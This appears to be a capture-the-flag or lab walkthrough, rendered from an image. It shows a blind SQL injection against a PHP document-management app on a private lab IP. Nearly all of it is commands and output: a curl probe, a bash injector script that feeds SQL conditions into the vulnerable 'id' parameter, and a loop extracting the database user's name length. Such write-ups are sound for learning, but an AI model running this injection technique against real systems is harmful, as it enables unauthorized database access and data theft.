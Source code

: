 kali@kali:~$ curl -s 'http://192.168.1.76/jabcd0cs/details.php?id=1%20and%201=2&state=2' -H 'Host: 192.168.1.76' -H 'Cookie: SpryMedia_DataTables_filetable_out.php=%7B%22iCreate%22%3A1521279979936%2C%22iStart%22%3A0%2C%22iEnd%22%3A10%2C%22iLength%22%3A10%2C%22sFilter%22%3A%22%22%2C%22sFilterEsc%22%3Atrue%2C%22aaSorting%22%3A%5B%20%5B0%2C%22asc%22%5D%5D%2C%22aaSearchCols%22%3A%5B%20%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%5D%2C%22abVisCols%22%3A%5B%20true%2Ctrue%2Ctrue%2Ctrue%2Ctrue%2Ctrue%2Ctrue%2Ctrue%2Ctrue%2Ctrue%2Ctrue%5D%7D; SpryMedia_DataTables_filetable_search.php=%7B%22iCreate%22%3A1521280061413%2C%22iStart%22%3A0%2C%22iEnd%22%3A1%2C%22iLength%22%3A10%2C%22sFilter%22%3A%22%22%2C%22sFilterEsc%22%3Atrue%2C%22aaSorting%22%3A%5B%20%5B0%2C%22asc%22%5D%5D%2C%22aaSearchCols%22%3A%5B%20%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%5D%2C%22abVisCols%22%3A%5B%20true%2Ctrue%2Ctrue%2Ctrue%2Ctrue%2Ctrue%2Ctrue%2Ctrue%2Ctrue%2Ctrue%2Ctrue%5D%7D; has_js=1; PHPSESSID=s7p59g7pp1hhj1mo39da7ordl7' | grep -c "images/file_unlocked.png"  
>0  

**We found our blind sqli! Let's script it!**

kali@kali:~$ cat injector.sh 
>#!/bin/bash  
>
>#GET INJECTION  
>INJ=$1  
>
>#SANITIZE VARIABLE  
>\_INJ\_=$(echo $INJ | sed 's/ /%20/g' | sed "s/'/%27/g" | sed 's/"/%22/g' )  
>
>curl -s "http://192.168.1.76/jabcd0cs/details.php?id=1%20and%20$_INJ_&state=2" -H 'Host: 192.168.1.76' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://192.168.1.76/jabcd0cs/out.php?' -H 'Cookie: SpryMedia_DataTables_filetable_out.php=%7B%22iCreate%22%3A1521654334977%2C%22iStart%22%3A0%2C%22iEnd%22%3A10%2C%22iLength%22%3A10%2C%22sFilter%22%3A%22%22%2C%22sFilterEsc%22%3Atrue%2C%22aaSorting%22%3A%5B%20%5B0%2C%22asc%22%5D%5D%2C%22aaSearchCols%22%3A%5B%20%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%5D%2C%22abVisCols%22%3A%5B%20true%2Ctrue%2Ctrue%2Ctrue%2Ctrue%2Ctrue%2Ctrue%2Ctrue%2Ctrue%2Ctrue%2Ctrue%5D%7D; has_js=1; PHPSESSID=tlepojod9vsfojcqj7eao6t9j4' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Cache-Control: max-age=0' | grep -c "images/file_unlocked.png"  


**Testing**  
kali@kali:~$ ./injector.sh "1=1"  
>1  
kali@kali:~$ ./injector.sh "1=2"  
>0  
kali@kali:~$ ./injector.sh "(select length(1000000000000000000000000000000000000000000000000000000000000000000000))=70"  
>1  


**Exploiting**  
kali@kali:~$ for i in {1..20}; do RES=$(./injector.sh "(select length(user()))=$i"); if [[ $RES == 1 ]]; then echo "[+]Length found: $i";fi; done  
>[+]Length found: 14  
